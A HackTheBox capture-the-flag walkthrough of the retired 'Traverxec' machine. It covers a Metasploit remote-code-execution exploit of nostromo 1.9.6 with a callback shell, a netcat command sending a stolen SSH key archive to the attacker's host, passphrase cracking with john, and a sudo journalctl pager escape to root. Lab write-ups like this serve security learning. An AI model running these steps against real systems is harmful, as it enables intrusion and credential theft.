 ```yaml
---
title: "Traverxec"
collection: publications
permalink: /publication/traverxec
excerpt: 'This is a retir machine from HackTheBox'
date: 2023-08-03
venue: '08-03'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/traverxec_header.png)

**LINK:** [Traverxec](https://app.hackthebox.com/machines/Traverxec)

---

## Enumeration : 

Let's scan the target with nmap : 

```bash
nmap -sV -sC -A -p- 10.10.10.165
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-03 06:19 EDT
Nmap scan report for 10.10.10.165
Host is up (0.19s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa99a81668cd41ccf96c8401c759095c (RSA)
|   256 93dd1a23eed71f086b58470973a388cc (ECDSA)
|_  256 9dd6621e7afb8f5692e637f110db9bce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 5.1 (92%), Crestron XPanel control system (90%), Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

the scan reveals 2 open ports :
 * ``SSH`` running on port 22.
 * ``Nostromo`` web server running on port 80.


* Visiting ``http://10.10.10.165``, we see this web page.

![traverxec1](/images/traverxec1.png)

# Initial foothold : 

* I spent some time exploring the web page( source code, hidden directories...) but i didn't find anything interesting.

* One of the information that we found earlier was the version of ``nostromo`` which is ``1.9.6``, a quick research on google i found that this version of ``nostromo`` is vulnerable to ``remote code execution``.

>[Exploit-DB](https://www.exploit-db.com/exploits/47837)
>[Rapid7](https://www.rapid7.com/db/modules/exploit/multi/http/nostromo_code_exec/)

* I used ``metasploit`` to exploit this vulnerability, you can also use the python exploit that we found on ``Exploit-DB``.
* Let's fire up metasploit and choose the module related to this vulnerability

```bash
# msfconsole
msf > use exploit/multi/http/nostromo_code_exec
```

* Time to set some options before we exploit the server.

```bash
msf exploit(multi/http/nostromo_code_exec) > set target 1
msf exploit(multi/http/nostromo_code_exec) > set RHOSTS 10.10.10.165
msf exploit(multi/http/nostromo_code_exec) > set LHOST <your-ip-address>
msf exploit(multi/http/nostromo_code_exec) > exploit
```

* After few seconds, we got the shell as ``www-data`` user.

![traverexec2](/images/traverexec2.png)


# User Flag : 

* Next step is to escalate our shell to ``David's``.
* Visiting the ``/var/nostromo/conf`` directory, we see a file named ``nhttpd.conf`` contains the web server configuration.

```bash
[snip]
# HOMEDIRS [OPTIONAL]

homedirs /home
homedirs_public public_www
[snip]
```

* This configuration indicates that there might be a folder named ``public_www`` in the user's home directory, earlier i did notice that the david's home directory is not readable, however the ``public_www`` is readable.

* the ``public_www`` folder contains a subfolder named ``protected-file-area`` where i found a compressed file named ``backup-ssh-identity-files.tgz``.

![traverexec3](/images/traverexec3.png)

* There are a lot of ways to transfer the compressed file to our local machine, i used ``netcat`` for this purpose.

* on our local machine : 

```bash
# nc -lvp 1234 > backup-ssh-identity-files.tgz
```
* On the victim machine : 

```bash
# nc <your-ip-address> 1234 < backup-ssh-identity-files.tgz
```

* Since it's a tar archive, let's use ``tar`` command to extract it.

```bash
#tar -xvf backup-ssh-identity-files.tgz
```

![traverexec4](/images/traverexec4.png)

* I found the private key for ``SSH``, so maybe we can login as ``david``.

```bash
chmod 400 id_rsa
```

* Unfortunately the privte key is encrypted so we need the passphrase.

![traverexec5](/images/traverexec5.png)

* let's try to crack it with ``john``, first we will extract the hash from the private key.

```bash
# ssh2john id_rsa > id.hash 
```

* Time to crack it 

![traverexec6](/images/traverexec6.png)

* Now that we have the passphrase let's login.

![traverexec7](/images/traverexec7.png)


# Root Flag : 

* There is a folder called ``bin`` inside david's home directory, let's examine the ``server-stats.sh`` script.

![traverexec8](/images/traverexec8.png)

* We can see that the last command is executed using ``sudo``, after executing the script we can see that it displays the last 5 lines of the nostromo service logs using journalctl.

* A quick visit to [GTFOBins](https://gtfobins.github.io/gtfobins/journalctl/#sudo), i found out that ``journactl`` is exploitable because it invokes the default pager which is likely to be ``less``, the ``less`` command waits for user input after displaying the output so at that moment we can spawn a shell as sudo.

* before running the following command, you should resize the screen by maximizing it in order to spawn the shell : 

```bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```











